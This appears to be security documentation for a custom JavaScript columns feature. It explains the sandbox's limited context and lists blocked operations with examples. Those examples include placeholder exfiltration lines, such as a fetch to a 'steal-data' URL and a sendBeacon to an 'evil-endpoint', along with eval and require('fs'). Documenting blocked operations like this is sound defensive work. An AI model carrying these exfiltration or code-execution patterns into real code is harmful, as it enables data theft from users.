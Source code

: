 # Security Guidelines - Custom JS Columns

## Security Model

The Custom JavaScript Columns feature implements a controlled execution environment designed to prevent malicious code execution while providing useful functionality.

## Execution Environment

### Sandboxed Context

Custom JavaScript executes in a limited context with only these objects available:

```javascript
{
  record: currentRowData,
  column: columnMetadata,
  Metadata: etendoMetadataAPI
}
```

### Blocked Operations

The following operations are prevented by the underlying execution framework:

#### DOM Access
```javascript
// ❌ BLOCKED
window.location.href = "malicious-site.com"
document.getElementById("sensitive-element")
localStorage.setItem("key", "value")
```

#### Network Requests
```javascript
// ❌ BLOCKED
fetch("https://malicious-api.com/steal-data")
new XMLHttpRequest()
navigator.sendBeacon("evil-endpoint", data)
```

#### Dynamic Code Execution
```javascript
// ❌ BLOCKED
eval("malicious code")
new Function("return malicious code")()
setTimeout("code string", 1000)
```

#### Module System Access
```javascript
// ❌ BLOCKED
import("malicious-module")
require("fs")
global.process
```
